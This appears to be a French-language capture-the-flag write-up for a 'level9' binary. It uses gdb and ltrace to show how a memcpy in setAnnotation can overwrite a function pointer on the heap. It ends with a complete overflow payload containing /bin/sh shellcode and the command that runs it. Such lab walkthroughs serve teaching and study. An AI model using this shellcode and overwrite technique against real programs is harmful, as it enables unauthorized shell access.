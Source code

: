 # `memcpy` Exploitation

En décompilant l'exécutable, on remarque qu'il fait appel à le fonction `memcpy` et qu'il fait appel à l'adresse d'une fonction enregistrée dans la mémoire. Nous avons l'intuitions que nous allons devoir utiliser cet appel fonction pour faire appel à une fonction de notre choix.

Avec `gdb`, on remarque que l'appel à la fonction stockée en mémoire est en fait une instruction `call` à l'adresse pointée par `edx`.
```
> gdb --args level9 "AAAA"
[...]
> (gdb) disas main
[...]
   0x08048693 <+159>:	call   *%edx
[...]
```
On remarque que `edx` est assigné juste après l'appel à la fonction `setAnnotation`.
```
   0x0804867c <+136>:	mov    0x10(%esp),%eax
   0x08048680 <+140>:	mov    (%eax),%eax
   0x08048682 <+142>:	mov    (%eax),%edx
```
On constate ici un `mov` de `esp+0x10` dans `eax`. Puis un `move` de `eax` dans `edx`. Cela revient à dire qu'on `move` `esp+0x10` dans `edx`. Voyons où pointe `esp+0x10` et imprimons le contenu de cette adresse pour le visualiser plus tard dans la mémoire.
```
> (gdb) x $esp+0x10
0xbffff6a0:	0x0804a078
> (gdb) x 0x0804a078
0x804a078:	0x0804a00c
```
`esp+0x10` pointe donc sur à l'adresse `0x0804a078`.

> Il est important de noter que `edx` pointe désormais sur une adresse, qui contient l'adresse de la fonction. Cette information est importante à retenir pour la suite.

Mettons cette information de côté, et observons à présent notre `memcpy`. Déterminons tout d'abord l'endroit de la copie en mémoire. Pour cela, on peut, comment l'exercice précédent, utiliser `ltrace`.
```
> ltrace ./level9 "AAAA"
[...]
memcpy(0x0804a00c, "AAAA", 4)                                             = 0x0804a00c
[...]
```
`memcpy` copie donc à l'adresse `0x0804a00c`.

On remarque que l'adresse pointée par `esp+0x10` et l'adresse de copie de `memcpy` semblent être assez proches. On devrait donc pouvoir utiliser l'appel à le fonction `memcpy` pour écraser l'adresse pointée par `esp+0x10` par une adresse que nous définirons. Vérifions le en le visualisant. On `break` à l'instruction suivant l'appel à `memcpy`.
```
> (gdb) disas 0x804870e
Dump of assembler code for function _ZN1N13setAnnotationEPc:
   0x0804870e <+0>:	push   %ebp
   0x0804870f <+1>:	mov    %esp,%ebp
   0x08048711 <+3>:	sub    $0x18,%esp
   0x08048714 <+6>:	mov    0xc(%ebp),%eax
   0x08048717 <+9>:	mov    %eax,(%esp)
   0x0804871a <+12>:	call   0x8048520 <strlen@plt>
   0x0804871f <+17>:	mov    0x8(%ebp),%edx
   0x08048722 <+20>:	add    $0x4,%edx
   0x08048725 <+23>:	mov    %eax,0x8(%esp)
   0x08048729 <+27>:	mov    0xc(%ebp),%eax
   0x0804872c <+30>:	mov    %eax,0x4(%esp)
   0x08048730 <+34>:	mov    %edx,(%esp)
   0x08048733 <+37>:	call   0x8048510 <memcpy@plt>
   0x08048738 <+42>:	leave  
   0x08048739 <+43>:	ret    
End of assembler dump.
> (gdb) b *0x08048738
Breakpoint 1 at 0x8048738
> (gdb) r
Starting program: /home/user/level9/level9 AAAA

Breakpoint 1, 0x08048738 in N::setAnnotation(char*) ()
> (gdb) x/30wx 0x0804a00c
0x804a00c:	0x41414141	0x00000000	0x00000000	0x00000000
                ^
                AAAA
0x804a01c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a02c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a03c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a04c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a05c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a06c:	0x00000000	0x00000005	0x00000071	0x08048848
                                                ^
                                                esp+0x10
0x804a07c:	0x00000000	0x00000000
```
Nos hypothèses sont confirmées. Le décalage entre les deux adresses semble assez grand pour injecter un `shell code`. Nous utiliserons celui-ci :
```
\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh
```
Rappelons-nous, l'adresse à écraser doit pointer sur une adresse contenant l'adresse du début de notre `shell code`. C'est un point important car on ne peut pas effectuer un `jump` directement sur notre `shell code`. Voici donc la façon dont nous allons remplir notre `buffer` :
```
[adresse_du_shell_code] + [shell_code] + [NOP] + [adresse_pointeur_shell_code]
^                         ^                      ^
4 octets                  45 octets              4 octets
```
L'`adresse_pointeur_shell_code` pointe en fait sur l'adresse de `adresse_du_shell_code`.

Pour connaitre le nombre d'instructions `NOP` à insérer, il nous faut connaitre au préalable le décalage entre l'adresse de copie de `memcpy` et `esp+0x10`.
```
offset = esp+0x10 - adresse_copie_memcpy + 0x04
       = 0x804A078 - 0x804a00c + 0x04
       = 70
       = 112 (base 10)
```
```
NOP = 112 - 4 - 45 - 4
    = 59
```
Nous aurons donc besoin d'insérer `59` instructions `NOP`.

Il est facile ensuite de déterminer `adresse_du_shell_code` et `adresse_pointeur_shell_code` en visualisant la mémoire. Reprenons notre visualisation mémoire avec la copie de nos caractères `AAAA` :
```
0x804a00c:	0x41414141	0x00000000	0x00000000	0x00000000
                ^               ^
                adresse         shell code
                shell code
0x804a01c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a02c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a03c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a04c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a05c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a06c:	0x00000000	0x00000005	0x00000071	0x08048848
                                                ^
                                                adresse pointeur
                                                shell code
0x804a07c:	0x00000000	0x00000000
```
Autrement dit :
```
adresse_shell_code = adresse_copie_memcpy + 0x04
                   = 0x804a00c + 0x04
                   = 0x804A010
```
```
adresse_pointeur_shell_code = adresse_copie_memcpy
                            = 0x804a00c
```
Nous pouvons donc créer notre commande que nous fournirons en argument du programme.
```
python -c 'print "\x10\xa0\x04\x08" + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" + "\x90"*59 + "\x0c\xa0\x04\x08"'
```
```
./level9 `python -c 'print "\x10\xa0\x04\x08" + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" + "\x90"*59 + "\x0c\xa0\x04\x08"'`
```
